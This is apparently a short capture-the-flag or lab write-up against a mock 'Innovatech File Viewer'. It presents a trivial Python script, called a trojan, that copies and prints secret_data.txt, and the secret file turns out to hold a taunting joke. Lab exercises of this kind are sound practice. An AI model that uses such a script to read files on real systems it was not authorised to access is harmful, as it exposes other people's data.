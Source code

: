**Date:** 24thd October 2025
**Target:** Innovatech File Viewer
**Vulnerability:** Trojan Horse

---

## 🕵️ Vulnerability Analysis
By programming a trojan horse in python and moving the file into the directory, I gain access to the data in `secret_data.txt`

## 👨‍💻 Exploitation Steps

1. Create a `.txt` file
2. Write the trojan code in Python in it
```
import os
import shutil

with open('stolen_data.txt', 'x') as f:
    shutil.copyfile('secret_data.txt', 'stolen_data.txt')

with open('stolen_data.txt', 'r') as f:
    data = f.read()
    print(data)
```
3. Convert the file into a python file.
4. Move it into the directory
5. Execute the trojan code.

## 📃 Proof of Compromise

Contents of `secret_data.txt` are - 
```
Loser checking the content through the repo 🤣🫵
bish ahh, Go attack the app 🤣🫵
```